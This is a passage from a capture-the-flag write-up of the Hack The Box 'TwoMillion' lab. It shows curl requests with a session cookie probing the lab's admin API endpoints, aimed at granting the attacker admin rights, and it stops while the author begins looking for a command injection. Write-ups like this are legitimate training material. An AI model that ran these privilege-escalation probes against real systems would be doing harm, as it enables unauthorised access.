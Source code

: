 We can now answer the question:

**Answer:** `3`

## Q7 - Endpoint to Change a User Account to an Admin Account

**Question Reminder:** *Which API endpoint allows changing a user account to an administrator account?*

From the previous result, we have obtained a broader view of the API structure.

The endpoint that would most correspond to this question would be `/api/v1/admin/settings/update`, particularly by its description `"Update user settings"`.

**Answer:** `/api/v1/admin/settings/update`

## Q8 - Command Injection

**Question Reminder:** *Which API endpoint has a command injection vulnerability?*

Well, we need to find an endpoint vulnerable to command injection.

Let's make a request to `/api/v1/admin/auth` to check our current privileges.

```bash
curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314" | jq
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 17 0 17 0 0 93 0 --:--:-- --:--:-- --:--:-- 93
{
"message": false
}
```

Apparently, we don't have administrator privileges.

We could try to give ourselves these privileges via the `/api/v1/admin/settings/update` endpoint, right?

Let's try to do that with a test request with an empty data body.

```bash
curl -v -X PUT -d {} -H "Content-Type: application/json" http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314" | jq
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Cookie: PHPSESSID=6rpp80g8sueusjtr6fgeqd5314
> Content-Type: application/json
> Content-Length: 2
>
} [2 bytes data]
* upload completely sent off: 2 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sun, 10 Aug 2025 16:16:29 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
```
